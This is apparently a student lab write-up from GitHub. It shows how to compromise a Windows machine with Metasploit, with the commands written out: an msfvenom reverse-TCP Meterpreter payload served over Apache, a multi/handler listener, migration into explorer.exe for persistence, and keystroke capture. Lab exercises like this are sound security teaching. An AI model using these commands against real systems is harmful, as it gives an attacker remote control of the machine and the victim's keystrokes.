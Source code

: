 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
Find the attackers ip address using ifconfig
![Screenshot 2024-10-28 155116](https://github.com/user-attachments/assets/1d9adda2-6b08-43e5-9ba0-0a0b6182a123)

Create a malicious executable file fun.exe using msenom command msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
![Screenshot 2024-10-28 155126](https://github.com/user-attachments/assets/c4186dc4-8a67-4130-8402-2c71843126db)


copy the fun.exe into the apache /var/www/html folder
![Screenshot 2024-10-28 155134](https://github.com/user-attachments/assets/7141ce8d-935d-49a0-b563-e1590772c42f)


copy the fun.exe into the apache /var/www/html folder
![Screenshot 2024-10-28 155134](https://github.com/user-attachments/assets/6c659000-a73b-426d-8123-498e32c9c84c)

Check the status of apache2

![Screenshot 2024-10-28 155142](https://github.com/user-attachments/assets/a8eff1cc-a7ff-4448-aa55-ef705268b9d9)

Invoke msfconsole:
![Screenshot 2024-10-28 155151](https://github.com/user-attachments/assets/bb0992ea-2970-4c8b-91c9-19d6c0ccdcc1)

Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.
![Screenshot 2024-10-28 155213](https://github.com/user-attachments/assets/e3ba9239-c20d-4d12-8bbf-ade55975613f)


Starting a command and control Server use multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit
![Screenshot 2024-10-28 155231](https://github.com/user-attachments/assets/7cab5bb0-884b-4c47-920e-dcf2ff56d355)


On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.2/fun.exe The file "fun.exe" downloads.
![Screenshot 2024-10-28 155241](https://github.com/user-attachments/assets/fcd4b7b8-bd68-4e03-aa46-32db3bf54d43)

Bypass any warning boxes, double-click the file, and allow it to run.
![Screenshot 2024-10-28 155249](https://github.com/user-attachments/assets/6483cae8-853a-4258-a5b4-ca7dfb3eaff1)

On kali give the command exploit
![Screenshot 2024-10-28 155257](https://github.com/user-attachments/assets/9896537b-3889-4b0b-a4c6-4e207032efc1)

To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156
![Screenshot 2024-10-28 155305](https://github.com/user-attachments/assets/1b0473a9-1a0b-4580-a72e-b740707c431f)


The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command: migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted

![Screenshot 2024-10-28 155315](https://github.com/user-attachments/assets/152350c4-c89c-4f6f-993e-40f2fc6a6c78)

Post Exploitation The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.

![Screenshot 2024-10-28 155331](https://github.com/user-attachments/assets/7d75b10e-92e0-4187-9582-43bc29f179b7)
![Screenshot 2024-10-28 155342](https://github.com/user-attachments/assets/0159dde1-ca2a-48e9-8994-cb0904b78867)


keyscan_dump Shows the keystrokes captured so far

![Screenshot 2024-10-28 155352](https://github.com/user-attachments/assets/9e3e8016-4b29-47ab-b844-0b6486daefaf)


## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
